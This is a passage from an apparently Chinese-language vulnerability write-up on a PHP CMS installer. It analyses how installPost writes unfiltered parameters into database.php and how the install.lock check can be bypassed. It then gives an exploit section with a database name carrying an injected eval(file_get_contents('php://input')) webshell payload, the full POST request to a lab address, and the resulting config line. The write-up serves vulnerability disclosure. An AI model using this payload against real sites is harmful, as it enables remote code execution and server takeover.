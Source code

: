 	                        } else {
	                           return jsonError('安装失败');
	                        }
	                    } else {
	                        $db->exec($item);
	                    }
	                }

这段函数对获取的参数进行检测，Mysql数据库连接失败会报错退出，接着进行导入数据库操作。看第172-192行。

	if(is_array($dbconfig)){
	                    $conf = file_get_contents(PUBLIC_PATH.'package'.DS.'database.php');
	                    foreach ($dbconfig as $key => $value) {
	                        $conf = str_replace("#{$key}#", $value, $conf);
	                    }
	                    $install = CONF_PATH;
	                    if(!is_writable($install)){
	                        return jsonError('路径：'.$install.'没有写入权限');
	                    }
	                    try {
	                        $fileStatus = is_file(CONF_PATH. '/database.php');
	                        if ($fileStatus) {
	                             unlink(CONF_PATH. '/database.php');
	                        }
	                        file_put_contents(CONF_PATH. '/database.php', $conf);
	                        return jsonSuccess('配置文件写入成功',1);
	                    } catch (Exception $e) {
	                        return jsonError('database.php文件写入失败，请检查system/config 文件夹是否可写入');
	                    }


在`installPost`函数在的最后，将参数写入配置文件`database.php`中，且未对参数进行任何的过滤，攻击者可以构造脚本代码写入配置文件。

综上，首先程序流程不严谨，可以绕过install.lock检测进入installPost函数中，可直接进行CMS重装，或者通过构造参数将脚本代码写入配置文件，进一步去触发脚本代码，控制网站服务器，程序在实现上存在远程代码执行漏洞，危害极大。

##### 漏洞利用

###### CMS 重装

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-23/68963804.jpg)

###### 远程写入配置文件Getshell

利用php://input实现的webshell，就不必纠结于大小写了。

首先在攻击者服务器上创建一个新的数据库，命名为`test',1=>eval(file_get_contents('php://input')),'xx'=>'`

访问 `192.168.145.226/index.php?s=/install/Install/installPost`

`POST`内容

	username=admin&password=12345678&rpassword=12345678&dbport=3306&dbname=test',1=>eval(file_get_contents('php://input')),'xx'=>'&dbhost=192.168.86.194&dbuser=root&dbpw=root

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-23/97867487.jpg)

查看写入的内容。

	 // 数据库名
    'database'       => 'test',1=>eval(file_get_contents('php://input')),'xx'=>'',


测试。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-23/88598734.jpg)
